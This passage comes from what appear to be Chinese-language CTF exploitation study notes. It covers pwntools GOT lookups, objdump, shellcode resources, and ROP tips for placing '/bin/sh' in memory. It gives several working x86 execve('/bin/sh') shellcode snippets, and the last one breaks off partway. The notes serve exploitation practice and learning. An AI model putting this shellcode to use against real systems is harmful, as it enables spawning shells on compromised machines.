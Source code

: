    log.info("main address: " + hex(exe.symbols['main']))
    log.info("pow GOT address: " + hex(exe.got['pow']))
    log.info("strcspn GOT address: " + hex(exe.got['strcspn']))
    ```
* shellcraft
    pwntools中內建的一些assembly shell code

### Other
* objdump
    ```bash!
    $ objdump -M intel -d $binary | less
    ```
* 如果要寫shell code的話可以直接看exploit db上別人寫好的gadget，複製起來就可以用了，不過有時候也有可能會失敗，在確認其他東西都是正確的情況下，可以試看看別的，記得平台要選對
    [Exploit DB - Shell Code](https://www.exploit-db.com/shellcodes)
* [Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)
* [Linux System Call Table for x86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

### 寫/bin/sh\x00的方法
* [Shellcode Cheat Sheet](http://shell-storm.org/shellcode/index.html)
1. 如果是x86版本
建議直接寫在stack上，因為比較少int 0x80 ; ret的gadget可以用，那倒不如直接寫在script上然後計算esp或ebp的位置，一樣可以拿到儲存的位置
2. 如果是x64版本
建議可以用system read的方式搭配syscall ret的ROP
3. 如果是直接執行shell code
且shell code是可以直接讓我們輸入的話就直接參考exploit db的就好了
:::spoiler eg 1
```
push 0x0b
pop eax
push 0x0068732f
push 0x6e69622f
mov ebx, esp
int 0x80
```
:::
:::spoiler eg 2
```
mov eax, 0x6e69622f
push eax
mov eax, 0x0068732f
push eax
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
mov eax, 0xb
lea ebx, DWORD PTR [esp]
int 0x80
```
:::
:::spoiler eg 3
```
/*Put the syscall number of execve in eax*/
    xor eax, eax
    mov al, 0xb
    
    /*Put zero in ecx and edx*/
    xor ecx, ecx
    xor edx, edx
    
    /*Push "/sh\x00" on the stack*/
```